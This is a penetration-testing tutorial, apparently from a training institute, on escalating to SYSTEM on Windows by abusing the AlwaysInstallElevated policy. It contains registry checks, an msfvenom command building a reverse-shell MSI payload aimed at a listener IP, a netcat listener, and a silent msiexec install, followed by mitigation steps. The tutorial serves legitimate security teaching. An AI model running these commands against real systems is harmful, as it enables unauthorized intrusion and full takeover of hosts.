

:orphan:
(windows-privilege-escalation-alwaysinstallelevated)=
# Windows Privilege Escalation AlwaysInstallElevated
 
In a privilege escalation attack, Attackers get system access with low privilege and then attempt to gain higher rights to do operations that are restricted to less privileged users. Attackers gain administrative access to the network by exploiting design flaws, programming faults, bugs, and configuration blunders in the operating system and software applications. In this article, we will gain administrative privileges via the misconfigured `AlwaysInstalledElevated` group policy settings. 

Windows operating system includes a Windows Installer engine that uses `MSI` packages to install the software. Windows environments provide a group policy setting that allows a regular user to install a `Microsoft Windows Installer Package` (MSI) with system privileges. This policy is enabled in the Local group policy which directs windows os to use system privileges to install any program on the system.  This setting makes the system vulnerable to privilege escalation attacks as normal users can run the installation with elevated privileges. 

*Note: This option is equivalent to granting full `SYSTEM` rights, which can pose a massive security risk. Microsoft strongly discourages the use of this setting.*

This article assumes that we have already compromised the system and have a meterpreter session. 
`Getuid `


As we can see that we are logged as a normal user and not an admin. 

To check if this system is vulnerable to the AlwaysInstallElevated privilege escalation attack. Run the following command to query registry keys to check whether the windows installer has elevated privileges or not. 

`reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated`

`reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer`


From the above screenshot, the registry named `AlwaysInstallElevated` exists with a `dword` value of `0x1` which means that the AlwaysInstallElevated is enabled both on the `CURRENT USER and LOCAL MACHINE`. 
This vulnerability can be also be verified using `winpeas.exe`. WinPEAS is a script that searches for possible paths to escalate privileges on Windows hosts.
`https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS/winPEASexe`  

`winPEASx64.exe quiet systeminfo`


## Exploiting via .msi payload

To escalate the privileges, open a new terminal and type the following command to generate an MSI file named `“installer.msi” `using the msfvenom tool. 
```
msfvenom -p windows/x64/shell_reverse_tcp lhost=10.17.2.160 lport=1234 -f msi > installer.msi
lhost : it is listener's IP address
Lport : it is listener port 
```


Let's upload our MSI file named installer.msi to the target computer using the user's active Meterpreter session. 
`upload <path_to_msi_file>`


When it successfully uploads, open up the shell by typing shell in meterpreter. Next set up a netcat listener, which will listen for our reverse shell connection when the msi file will be executed by the victim host. 
```
sudo nc -nlvp <listner_port> 
-p : to specify the port to listen on 
-l : to listen for a connection 
-n : to skip the DNS lookup
-v : for verbose mode 
```


The following command can be used to execute the MSI file on the windows command.  
`msiexec /quiet /qn /i installer.msi`
```
/quiet : quiet mode, this means suppress any messages to the user while installing
/qn : specifies no GUI
/i : specifies normal installation
```


After the package is installed, the malicious code is run, giving the system `SYSTEM` level access through a reverse shell. 


Now we have a `SYSTEM` level shell. 

## Mitigation

To mitigate this type of attack, the following steps can be used in `Group Policy editor` to resolve the misconfiguration. 
Configure the policy value to `"Disabled"` for 
`Computer Configuration \Administrative Templates\Windows Components \Windows Installer \"Always install with elevated privileges"` 


`User Configuration\Administrative Templates\Windows Components\Windows Installer \"Always install with elevated privileges"`



:::{seealso}
Looking to expand your knowledge of penetration testing? Check out our online course, [MPT - Certified Penetration Tester](https://www.mosse-institute.com/certifications/mpt-certified-penetration-tester.html)
:::